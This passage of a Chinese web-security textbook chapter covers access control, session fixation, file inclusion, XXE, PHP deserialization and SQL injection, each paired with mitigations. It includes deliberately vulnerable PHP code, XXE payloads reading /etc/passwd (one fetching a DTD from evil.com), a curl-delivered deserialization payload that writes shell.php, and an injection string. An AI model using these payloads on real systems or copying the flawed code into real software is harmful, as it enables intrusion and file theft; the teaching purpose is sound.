示例二的缺陷在于系统设计者认为只要不公开（在其他页面添加外链引用）后台管理系统的入口页面，则攻击者就找不到攻击后台管理系统的入口，进而放松了对后台管理入口的身份认证安全加固（例如未启用双因素认证机制、口令爆破锁定机制等）。服务端代码的设计者错误的假设了「信息孤岛」页面无法被「外人」找到，而忽视了搜索引擎的意外收录、后台管理地址的字典式枚举发现等都可能会让「隐蔽」的后台管理入口暴露在攻击者面前。

示例三的缺陷和示例二的缺陷成因类似，服务端代码的设计者在用户登录之后，根据数据库中查询出来的当前用户所具备的权限列表显示所有可操作的页面和功能链接。同样是错误的假设了没有显示出来的功能链接就无法被非授权用户「访问到」，而忽视了攻击者可能通过 URL 字典枚举和猜解等方式，直接访问「隐蔽」功能的 URL。此时，服务端代码在执行「非授权」访问时，再次忽略了对当前请求是否持有被访问 URL 所需要的「权限令牌」进行检查。

据此，我们可以归纳出脆弱的访问控制的主要成因在于：内容或程序功能未能有效的保护以限制只允许合法用户的访问。除了上述 3 类常见的脆弱访问控制模式之外，客户端缓存、基于客户端数据过滤实现数据访问控制、分散授权管理、服务端 API 缺乏访问速率限制等，均会造成非授权访问危害。

在源代码级别的修复和加固是解决脆弱访问控制的最主要解决方案，具体来说，有以下一些可行的操作建议：

* 对每个需要保护的请求进⾏检查，不仅是在用户第⼀次请求时进⾏检查。
* 避免使用自⼰开发的访问控制框架，⽽是使用服务端编程框架官方提供或推荐的成熟解决方案。一个优秀的访问控制框架应满足：采用声明式⽽非硬编码的访问控制和集中化访问控制⽽非分散访问控制。例如 Java 开源框架 Spring 内置的 Acegi 系统，PHP 开源框架 Laravel 的第三方基于角色的权限控制框架 [Entrust](https://github.com/Zizaco/entrust) ，Python 开源框架 Flask 的第三方权限管理框架 [Flask-Principal](https://github.com/mattupstate/flask-principal) 。
* 为了防⽌客户端缓存受访问控制保护的内容，可以在所有服务端响应消息设置 HTTP 请求头或使用 HTML meta 标签。例如可以设置 HTTP 响应头：`Cache-Control: no-store` 或 `Cache-Control: no-cache, no-store, must-revalidate` 禁止客户端缓存当前响应内容。

除了源代码级别的安全加固在服务器端使用操作系统提供的访问控制机制保护⽂件的未经授权的访问。

特别的，对于服务器端代码在检查当前请求是否持有被访问 URL 所需要的「权限令牌」时应遵循「访问控制权限划分的三角形基本法则」，对业务模型的访问控制进行正确的授权建模。一方面要避免纵向「提升权限」攻击，同时也要注意横向同等权限角色条件下的被访问资源属主权限检查，避免「跨用户」非授权访问行为。以数据库存储的访问控制列表为例，可以设计类似如下的访问控制矩阵来检查每一次授权访问。

| 主键 (id) | 主体 (subject) | 客体 (object) |
|---|-------|------|
| 1 | Alice | /srv/www/upload/1.doc |
| 2 | Bob   | /srv/www/upload/2.doc |

当发生文件访问请求时，可以通过如下的 SQL 语句来检查当前访问是否是授权操作。

```sql
-- 只有当查询结果 > 0 时才说明是授权访问，否则均是非授权访问行为
select count(id) from tb_acl where subject=%user_name% and object=%access_file_path%
```

### 7.3.2 认证和会话管理缺陷

在上一节我们了解了「访问控制」失效的常见原因和提高访问控制能力健壮性的解决方案，本节我们将进一步深入关注访问控制的基本面之一「身份认证」常见的设计和实现缺陷。

在[2.3 访问控制理论](../chap0x02/main.md#23-访问控制理论) 一节我们了解到身份认证是访问控制机制的基础，通过身份认证，信息系统才能确认用户身份标识，进而在下一步「授权检查」时查询访问控制列表，检查指定用户是否具备对指定对象的访问权限。HTTP 协议是一种基于请求响应的无状态协议，同时没有内置的身份认证标准。大多数 Web 应用均至少实现了基于用户名和口令的单因素身份认证方式，同时为了避免用户反复、频繁输入用户名和口令，普遍采用 [Cookie](https://www.ietf.org/rfc/rfc2109.txt) 来管理用户会话，使得用户在经过一次身份认证检查之后的一段时间之内均能被 Web 应用识别出用户身份。

一个极端简单的脆弱身份认证例子如下 URL 所示：

```
https://victim.org/admin/list.jsp?password=0c6ccf51b817885e&username=11335984ea80882d
```

在上面这个例子中，通过把明文用户名和口令附加在每一次请求的 URL 参数上，服务端代码可以方便的完成每一次请求的身份认证。但类似这样直接把明文用户名和口令附加在每一次 HTTP 请求消息中的做法，既容易被基于网络流量劫持的中间人攻击方式截获，同时，利用跨站点脚本漏洞也可以直接读取到认证凭据。在实践中更普遍的身份认证流程是：用户的第一次身份认证验证的是用户名和口令是否匹配，一旦通过验证，服务器脚本会通过 HTTP 响应消息头的 `Set-Cookie: auth_key=token` 指令告知浏览器在后续请求的消息头使用 `Cookie: auth_key=token` 的方式来向服务器代码证明自己的身份。

上述普遍身份认证流程中常见的缺陷模式包括：简单易猜解的用户名和用户⼝令；由于第三方认证凭据泄漏导致的「[撞库](https://www.zhihu.com/question/21562202/answer/387045258)」攻击；存在缺陷的身份管理功能，例如[口令修改、忘记口令](https://blog.csdn.net/zaqwescsdn/article/details/46559171) 功能设计不当会导致所有用户口令可以被任意修改，进而被任意身份仿冒。

目前应用较为广泛的身份认证加固方案往往同时集成了多项安全措施，具体包括：

* 口令安全策略加强。例如，要求用户设置的口令具备一定复杂度，使用[第三方 API](https://haveibeenpwned.com/API/v2) 检查用户设置的口令是否存在于已知的口令泄漏事件所涉及数据库表中；
* 启用双因素认证。CAPTCHA（Completely Automated Public Turing test to tell Computers and Humans Apart）验证、Google 身份验证器、用户注册邮箱验证码、用户注册短信验证码等均是常见的双因素认证手段，用于辅助加强基于用户名和口令方式身份认证的不足之处。
* 启用账号风险监控识别和锁定机制。最基本的账号风险监控就是统计账号在短时间内的错误登录尝试次数，并在达到特定阈值时禁止账号继续身份认证尝试一段时间或启用双因素认证。更复杂的账号风险监控包括异地登录识别、异常设备登录识别、异常登录环境识别等等。

会话管理功能不仅在用户第一次身份认证通过之后可以起到改善用户身份认证体验的作用，对于未登录状态的用户行为也能得益于会话管理功能做到更好的状态追踪和保持。例如，用户在首次注册用户时填写的表单，如果遇到表单数据校验出错，通过会话管理功能可以实现用户不需要重复填写表单中所有正确格式的数据；电商用户在未登录状态下也可以使用购物车功能完成商品浏览、收藏和下单一系列操作的连贯性。

最常见的 Web 应用会话管理功能实现是依赖于客户端的 Cookie 和服务端的 Session 机制的。客户端 Cookie 中通常会记录服务端代码设置的一个「随机长字符串」作为 `Session ID`，服务端代码使用客户端发送来的 Cookie 中这个 `Session ID` 在服务端的 Session 列表中找到匹配 Session 对象，进而就可以知道「用户是谁」。这里的 `Session ID` 我们一般称为「会话令牌」。

常见会话管理类缺陷有 4 大类：会话预测（`Session Prediction`）、会话劫持（`Session Hijacking`）、会话固定（`Session Fixation`）和会话偷渡（`Session Riding`）。

* 会话预测（`Session Prediction`）指的是攻击者可以「预测」出服务端的合法「会话令牌」，从而达成身份冒用的效果。
* 会话劫持（`Session Hijacking`）可以通过中间人劫持攻击或跨站点脚本攻击方式拿到用于会话唯一标识的「会话令牌」。本节所举的第一个极端简单的脆弱身份认证例子正是这种类型缺陷。
* 会话固定（`Session Fixation`）利用到了服务端脚本对于身份认证前使用的「会话令牌」在身份认证通过之后没有更换新「会话令牌」这个设计模式的缺陷，攻击者诱骗受害用户使用攻击者提供的「会话令牌」完成身份认证，这样，攻击者手里掌握的这个「会话令牌」也就相应的同步变为「身份认证通过会话令牌」了。此时，攻击者相当于在并不需要掌握受害用户身份认证凭据的情况下，「克隆」了受害用户的已登录会话。与会话劫持相比，攻击者并不依赖于直接读取到一个已经通过身份认证的「会话令牌」，攻击者初始提供给受害用户的「会话令牌」就是未通过身份认证状态下的。当然，攻击得手之后，会话固定和会话劫持的效果是一致的：攻击者拿到了受害者用户身份对应的有效会话令牌。

一段存在会话固定缺陷的 PHP 代码如下：

```php
<?php

session_start();

if(isset($_GET['password']) && $_GET['password'] == 'demo') {
    $_SESSION['logged_in'] = true;
    $_SESSION['logged_in_as'] = 'CUC';

    // 修复方法：用户登录成功之后，执行以下函数重新设置 Session ID
    // session_regenerate_id()
}

if(isset($_SESSION['logged_in']) && $_SESSION['logged_in']) {
    echo "You are logged in as ", htmlentities($_SESSION['logged_in_as'],ENT_QUOTES,'UTF-8');
} else {
    echo "You are not logged in";
}

echo "<br>", "Your session ID is " . session_id();
```

会话固定漏洞对于 PHP 来说主要依赖于 `php.ini` 中的 2 个运行时必须存在以下「非安全」参数设置：

```ini
# 指定是否启用透明「会话令牌」支持（即基于 URL 请求参数的会话令牌）。默认为 0（禁用）
# 为了实现客户端禁止 cookie 发送的情况也不影响用户登录网站，可以设置 session.use_trans_sid=1
session.use_trans_sid=1

# 指定是否在客户端仅仅使用 cookie 来存放会话 ID。启用此设定可以防止有关通过 URL 传递会话 ID 的攻击。
# 此设定是 PHP 4.3.0 添加的。自PHP 5.3.0开始，默认值改为1（启用）
session.use_only_cookies=0 
```

在本地搭建可以运行上述缺陷代码的最快捷方法如下：

```bash
# 其中 php.ini 内容必须设置为如上「非安全」参数配置
php -S 127.0.0.1:8000 -c php.ini
```

使用 2 个分别运行于「隐私模式」的不同浏览器可以体验会话固定漏洞的利用过程和效果，操作过程动图录像如下：



由于 Web 技术历史进程的原因，一些网站的服务端代码会在客户端禁用 Cookie 时，采取 URL 重写技术将原本应该在 Cookie 里传递的「会话令牌」追加到 URL 的请求参数里。从 PHP 的默认运行时参数配置变更历史也可发现，旧版本 PHP 为了兼容不支持或禁用了站点 Cookie 技术的浏览器，所以默认启用了透明会话令牌和允许客户端同时使用 Cookie 和 URL 请求参数来传递会话令牌。这种「兼容性妥协」是会话固定攻击成为可能性的重要帮凶，如果没有这 2 个兼容性特性支持，会话固定漏洞将难以利用成功。

* 会话偷渡（`Session Riding`）是前述[跨站点请求伪造](#722-csrf-漏洞)的另一种表述。攻击者不需要克隆受害用户的会话，攻击者一次会话偷渡攻击只是借用受害用户保存在客户端的「会话令牌」执行一次受害用户不知情情况下的认证会话操作，攻击者对于受害用户使用的「会话令牌」具体是什么并不知情。

### 7.3.3 文件包含

一个良好的程序设计规范会要求把重复使用的函数（或方法）写到单独文件中，实现`代码重用`。这样，在需要使用到相关功能代码时，只需要通过`文件包含`的方式，即可在另一个文件中调用已定义好的函数。同时，很多程序为了实现`插件`效果，会允许程序在运行时通过变量赋值的方式来动态包含其他源代码文件。如果攻击者能够控制文件包含`变量的赋值`就意味着程序会加载由攻击者控制的恶意文件并执行其中的恶意代码，这就完成了`文件包含`漏洞的触发。几乎所有脚本语言都会提供文件包含功能，但 PHP 语言由于其过于灵活和自由的代码执行机制导致了大多数文件包含类漏洞都是出现在 PHP 编写的网站程序之中。

PHP 中常见的文件包含函数有 `include()`、`require()`、`include_once()`和`require_once()`，根据传入参数变量指向的文件是服务器上本地文件还是远程主机上的文件，PHP 的文件包含漏洞可以被分为本地文件包含和远程文件包含两种漏洞利用方式。需要注意的是，PHP 对于被包含的文件，只要内容符合 PHP 语法规范，不管扩展名是什么都能被 PHP 解析执行。若文件内容不符合 PHP 语法规范则会直接输出被包含文件的内容，包含不存在的文件则可能暴露文件的绝对路径。

以下是一段存在文件包含漏洞的 PHP 代码示例，我们将介绍几种最常见的漏洞利用方式来说明文件包含漏洞的危害。

```php
<?php
if (@$_GET['page']) {
    include($_GET['page']);
} else {
    include "./action/show.php";
}
```

1) 远程文件包含执行 PHP 代码。PHP 7.2.6 的默认运行时配置（php.ini）是禁止包含远程文件的，如下图所示是一次失败的远程文件包含漏洞利用行为尝试。



如下图所示则是修改了 `php.ini`，设置 `allow_url_include=On` 之后再次执行得到的成功效果截图。



其中，被包含的远程文件 `remote.php` 代码如下：

```php
<?php
phpinfo();
```

需要注意的是，除了 `allow_url_include=On` 远程文件包含漏洞利用的依赖配置之外，还依赖于 `allow_url_fopen=On`。

2) 本地文件包含读取任意文件内容的利用效果如下图所示：



3) 本地文件包含执行 PHP 代码。和上述远程文件包含执行 PHP 代码的利用方式类似，只是此时并不依赖于修改 PHP 的默认运行时配置即可完成任意 PHP 代码执行。但相比较于远程文件包含方式，本地文件包含漏洞的利用往往需要配合 `文件上传` 漏洞利用才能达成目的。攻击者需要先上传包含 PHP 代码的文件到服务器上，然后还需要知道已上传文件存储在服务器上的路径（绝对路径或相对当前脚本执行环境的相对路径），就可以通过控制文件包含参数的赋值来加载刚刚上传的恶意文件中的 PHP 代码。

4) 利用 `php://input`。[`php://input`](http://php.net/manual/zh/wrappers.php.php#wrappers.php.input) 是个可以访问请求的原始数据的只读流。在使用 POST 方式请求时，HTTP 请求体中的数据会赋值给 HTTP 请求头中对应 GET 变量值为 `php://input` 的变量。如下图所示，使用 `curl` 构造了一个这样的请求，其中 HTTP 请求体中对应的是一段 PHP 代码：在当前脚本目录下执行操作系统 `ls` 命令。



注意这种漏洞利用方式，同样依赖于 PHP 的运行时配置 `allow_url_include=On`，否则漏洞利用会失败，如下图所示。



5) 利用 [`data://`](http://php.net/manual/zh/wrappers.data.php)。



除了上述几种文件包含漏洞的利用方式，在实践中还有利用 [`php://filter`](http://php.net/manual/zh/wrappers.php.php#wrappers.php.filter)、PHP %00 截断漏洞等方式实现文件包含漏洞的利用。

缓解文件包含漏洞的方法可以通过修改 PHP 的运行时配置文件 `php.ini`，例如：开启 `open_basedir` 函数，将其设置为指定目录，则只有该目录的文件允许被访问。`allow_url_include=Off`，禁止远程文件包含。从代码级别避免和修复文件包含漏洞主要是过滤文件包含路径变量的输入，采用白名单方式包含文件，且建议禁止从程序外部输入读取包含文件的路径。

### 7.3.4 XXE 注入

`XXE` 的全称是 `XML External Entity（XML 外部实体）` 。XML（Extensible Markup Language，可扩展标记语言）是一种用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML 被设计用来传输和存储数据，而 HTML 作为一种特殊的 XML，则被设计用来显示数据。我们所熟知的「网页浏览器」就是一种解析 HTML 的引擎，XML 的解析同样有不同的解析器实现。如果没有针对性的解析器来处理 XML，则 XML 也好，HTML 也罢，都仅仅是纯文本而已。能够读懂 XML 的解析器则可以有针对性地处理 XML 中的标签，标签的功能性意义（例如将标记的数据渲染为一张图片，读取标记数据指向的文件内容等）依赖于解析器的设计与实现。如下是一段 XML 代码片段：

```xml
<!--XML声明-->
<?xml version="1.0"?> 
<!--文档类型定义-->
<!DOCTYPE email [  <!--定义一个名为 email 类型的文档-->
<!ELEMENT email (to,from,title,body)>  <!--定义 email 元素有四个子元素-->
<!ELEMENT to (#PCDATA)>      <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>    <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT title (#PCDATA)>   <!--定义title元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>    <!--定义body元素为”#PCDATA”类型-->
]>
<!--文档元素-->
<email>
<to>Bob</to>
<from>Alice</from>
<title>Cryptograpphy</title>
<body>We are famous guys.</body>
</email>
```

XML 文档结构包括 XML 声明、DTD （Document Type Definition，文档类型定义，可选）和文档元素。上述示例代码中的 `<!DOCTYPE 根元素 [元素声明]>` 就是一个`内部 DTD`。而`<!DOCTYPE 根元素 SYSTEM "文件名">`则是一种允许载入外部文件方式的`外部 DTD`。DTD 中有一些重要的关键字：

* DOCTYPE（声明 DTD）
* ENTITY（声明`实体`）
* SYSTEM、PUBLIC（申请外部资源）

XML 一共有 4 种实体类型，分别是：

* 内置实体 (Built-in entities)
* 字符实体 (Character entities)
* 通用实体 (General entities)
* 参数实体 (Parameter entities)。只能在 DTD 中用 `%实体名称` 声明，且只能在 DTD 中引用，引用时也用 `%实体名称`。其他 3 种实体虽然也只能在 DTD 中声明，但可以直接用 `实体名称` 声明，引用位置不限，且引用时用 `&实体名称`。

如果 XML 解析器未净化并验证外部提供的 XML 输入，那么负责`解析 XML 的应用程序`就会面临着注入攻击的风险。此类注入攻击可能导致敏感数据泄露、拒绝服务攻击、服务器端请求伪造、远程代码执行，甚至被用于执行应用程序托管服务器的网络端口扫描。以下 2 个 XML 片段均包含 XXE 攻击代码，分别对应直接读取本地文件和加载执行远程 DTD 文件中的 XML 代码读取本地文件。

```xml
<!-- 利用外部 DTD，读取系统文件 /etc/passwd -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<a>
        <!-- 读取到的 /etc/passwd 文件内容被保存在 passwd 变量中 -->
        <value>&passwd;</value>
</a>
```

```xml
<!-- 参数实体定义 -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
    <!ENTITY %f SYSTEM "http://evil.com/evil.dtd">
    %f;
]>
<aaa>&b;</aaa>

<!-- 其中 evil.dtd 文件内容如下 -->
<!ENTITY b SYSTEM "file:///etc/passwd">
```

以 PHP 的内置 [DOM](http://php.net/manual/zh/book.dom.php) 解析 XML 为例，一个典型的存在 XXE 漏洞的代码如下：

```php
<?php
$xml = file_get_contents('php://input'); // 允许用户上传 XML 代码片段

$dom = new DOMDocument();

// ref: http://php.net/manual/zh/libxml.constants.php
// LIBXML_NOENT    将 XML 中的实体引用 替换 成对应的值
// LIBXML_DTDLOAD  加载 DOCTYPE 中的 DTD 文件
$dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD); // http://php.net/manual/zh/domdocument.loadxml.php
$user = simplexml_import_dom($dom);
$name = $user->name;
$pass = $user->pass;

echo "You have logged in as user $name";
```

正常情况下用户发送过来的数据如下：

```xml
<user>
    <name>admin</name>
    <pass>mypass</pass>
</user>
```

此时，上述 PHP 代码可以正常处理解析用户数据并回显当前登录用户名称。但如果攻击者构造如下数据发送给上述 PHP 代码：

```xml
<!DOCTYPE user [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user><name>&xxe;</name><pass>mypass</pass></user>
```

则会回显输出服务器上 `/etc/passwd` 文件内容，攻击者达成了远程文件读取的攻击效果。

对于上述缺陷 PHP 代码来说，修改 `loadXML()` 的调用参数，去掉 `LIBXML_NOENT` 和 `LIBXML_DTDLOAD` 常量赋值即可阻止 XXE 漏洞利用成功。

为防止 XXE 攻击，应在应用程序使用的所有解析器上禁用 XML 外部实体和 DTD 处理，并使用“白名单”输入验证、过滤或净化功能。这将防止应用程序处理由攻击者嵌入 XML 文档和标头内部的恶意注入的 XML 代码。另外，确保使用的 XML 解析器引擎组件使用的是最新版本或没有已知漏洞，也能避免一些绕过 XXE 防护的攻击得手。

### 7.3.5 反序列化漏洞

序列化是将应用程序对象状态转换为二进制数据或文本数据的过程，而反序列化则是其逆向过程，即从二进制数据或文本数据创建对象状态。应用程序使用该功能来支持有效共享或存储对象状态。但是，这种反序列化过程可能会遭到攻击者的恶意利用，他们通过创建恶意的反序列化对象，在应用程序执行序列化时远程执行代码和篡改数据。使用不可信来源的对象序列化的分布式应用程序和 API 特别容易受到反序列化攻击。

流行的服务端编程语言 PHP、Java 和 Python 等均有可能编写出包含反序列化漏洞的代码。[2015 年 Apache Commons Collections 反序列化远程命令执行漏洞](https://commons.apache.org/proper/commons-collections/security-reports.html) 影响范围包括：WebSphere、JBoss、Jenkins、WebLogic 和 OpenNMS 等。Python 的 [PyYAML](https://pyyaml.org/) 和 [Pickle](https://docs.python.org/3/library/pickle.html) 是 2 个常见的序列化工具库。和 XML 类似，JSON 也是一种被设计用来存储和传输数据的标准化语言，几乎所有高级语言都支持 JSON 数据的序列化和反序列化操作。相比较于 Pickle 这种 Python 的私有序列化算法，JSON 拥有广泛的兼容性。2017 年 3 月 15 日，[fastjson 官方发布安全公告](https://github.com/alibaba/fastjson/wiki/security_update_20170315)表示：fastjson 在 1.2.24 及之前版本存在（反序列化）远程代码执行高危安全漏洞，攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。fastjson 正是 Java 社区常用的 JSON 和 Java Bean 转换（反序列化）组件。而 PHP 反序列化漏洞，又被称为 PHP 对象注入漏洞。当在 PHP 中创建了一个对象后，可以通过 `serialize()` 把这个对象转变成一个字符串，保存对象的值方便之后通过网络传输到另一台主机或从磁盘上的文件上还原回 PHP 对象。与 `serialize()` 对应的，`unserialize()`可以从已存储的二进制表示中创建 PHP 值。若被反序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用 `__wakeup()` 成员函数（如果存在的话）。

以下一段代码仅为演示 PHP 的反序列化漏洞触发机理，实际存在反序列化漏洞的代码往往比这个示例要复杂的多。

```php
<?php
class cuc {
    var $test = 'whatever';
    function __wakeup() {
        $fp = fopen("shell.php", "w");
        fwrite($fp, $this->test);
        fclose($fp);
        echo '__wakeup';
    }
}

$class = $_GET['test'];

unserialize($class);
```

为了触发上述代码存在的反序列化漏洞，需要构造一个 `cuc` 对象的序列化结果通过 GET 参数 `test` 赋值传入 `unserialize()` 函数。而构造这个 `cuc` 对象的序列化结果的方法非常简单，如下：

```php
<?php
class cuc {
    var $test = 'whatever';
    function __wakeup() {
        $fp = fopen("shell.php", "w");
        fwrite($fp, $this->test);
        fclose($fp);
        echo '__wakeup';
    }
}
$payload_class = new cuc();
$payload_class->test = "<?php phpinfo(); ?>";
$payload = serialize($payload_class);
print(urlencode($payload)); // urlencode() 结果是为了方便使用 curl 时给 GET 参数赋值
// urlencode() 之前的 $payload 值如下：
// O:3:"cuc":1:{s:4:"test";s:19:"<?php phpinfo(); ?>";}
```

利用 `curl` 发送上述构造好的序列化数据的例子如下：

```bash
curl http://127.0.0.1:8888/serialize_vul.php\?test\=O%3A3%3A%22cuc%22%3A1%3A%7Bs%3A4%3A%22test%22%3Bs%3A19%3A%22%3C%3Fphp+phpinfo%28%29%3B+%3F%3E%22%3B%7D
```

成功执行上述反序列化漏洞利用代码之后，会在当前脚本目录下创建的 `shell.php` 中写入 PHP 代码：`<?php phpinfo(); ?>`。由此可见，当传给 `unserialize()` 的参数可控时，我们可以通过传入一个精心构造的序列化字符串，从而控制对象内部的变量甚至是函数。

为阻止遭受反序列化攻击，应将应用程序配置为不接受不可信来源的任何反序列化输入，或者仅使用具有基本数据类型的序列化函数（如 PHP 的 `json_encode()` 和 `json_decode()`）。如果这些措施不可行，那么在创建对象之前执行反序列化期间应强制实施约束类型，在较低特权环境（例如，临时容器）中运行反序列化，并限制与执行反序列化的服务器的网络连接。同时还可通过使用加密或完整性检查（例如，数字签名），防止恶意的对象创建和数据篡改操作。

### 7.3.6 第三方组件缺陷

所有 Web 应用程序都依靠由第三方开发和提供的各种软件组件，包括开源组件和商用组件。务必要在软件资产清单中记录应用程序所使用的所有第三方软件组件，包括软件版本号。然后实施相应的程序来持续监控供应商网站和软件漏洞警报来源（例如，CVE、CNVD 和 NVD），获取新型安全漏洞的通知，以及用于解决安全漏洞的新版本或补丁的发布信息。例如，OpenSSL 库支撑了了大部分开源服务器软件（包括 Web 服务器、SSH、邮件服务器等）的加密会话功能实现。2014 年 4 月，人们发现 OpenSSL 库的多个版本都存在重大安全漏洞：CVE-2014-0160，即心脏出血漏洞。利用该漏洞，攻击者可以直接读取远程服务器上的内存数据，其中包括大量运行时的明文密钥、明文口令等机密数据。攻击者借助恢复出的密钥和口令等，又可以进一步获取远程服务器的高权限。Struts2 是 Apache 基金会开源的一个基于 MVC 设计模式的 Java Web 应用框架，该框架在 Java 企业级 Web 开发中十分常见。根据 [Struts 2 官网安全公告](https://cwiki.apache.org/confluence/display/WW/Security+Bulletins) 统计，自 2007 年发布第一个编号为 [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001) 的安全通告至最新编号 [S2-056](https://cwiki.apache.org/confluence/display/WW/S2-056) ，11 年间一共出现过的远程代码高危漏洞超过 20 个。例如，CNVD 在 2016 年 4 月 26 日发布的[关于Apache Struts 2 S2-032高危漏洞可被利用发起大规模攻击的安全公告](http://www.cnvd.org.cn/webinfo/show/3837)提到：`目前已经出现涉及银行、保险行业单位以及大型互联网增值电信企业的信息系统受漏洞影响的案例报告`。可以说，即使自己编写的代码遵循了最佳安全实践，从代码层面规避了种种安全漏洞，但如果对于依赖的第三方组件出现的漏洞视而不见，开发上线的系统最终仍然难逃被漏洞攻击的命运。

若要确保第三方 Web 应用程序组件不含任何已知漏洞，就需要持续执行监控流程，获取新型安全漏洞的通知、新发布的安全补丁和定期漏洞扫描程序。

在 Web 应用中，常见的第三方组件主要分为以下几类：

* 富文本编辑器，CKeditor、FCKeditor
* 通用开发框架，Java Struts 2，PHP （Laravel / ThinkPHP / Yii2），Python（Django，Flask）
* 常用开发库，Java Apache Commons Collections，OpenSSL（密码学相关），ImageMagick（图像处理），ffmpeg（视频处理）

## 7.4 后台相关漏洞

### 7.4.1 SQL 注入

SQL 注入在今天来看是一项「古老」但「威力巨大」的远程网络攻击技术。「古老」是因为最早公开讨论 SQL 注入技术原理的是在 1998 年著名黑客杂志《Phrack》第 54 期上一篇名为 [NT Web Technology Vulnerabilities](http://www.phrack.org/issues/54/8.html#article) 的文章，在这篇文章里作者举了一个针对 `MS SQL server 6.5` 的 SQL 注入的例子，如下所示：

```sql
-- MS SQL server 支持批量执行 SQL 语句
-- 以下 %% %% 之间的内容是「来自 Web 客户端用户可以控制输入的数据」
SELECT * FROM table WHERE x=%%criteria from webpage user%%

-- 如果攻击者构造的输入数据如下
1 SELECT * FROM sysobjects

-- 则最终在数据库中执行的 SQL 语句就变为了 
-- 一次执行了 2 条 SQL 语句
-- 且第 2 条 SQL 语句的执行结果会覆盖第一条 SQL 语句执行的结果
-- 最终攻击者成功访问到了 sysobjects 表中的所有数据
SELECT * FROM table WHERE x=1 SELECT * FROM sysobjects
```

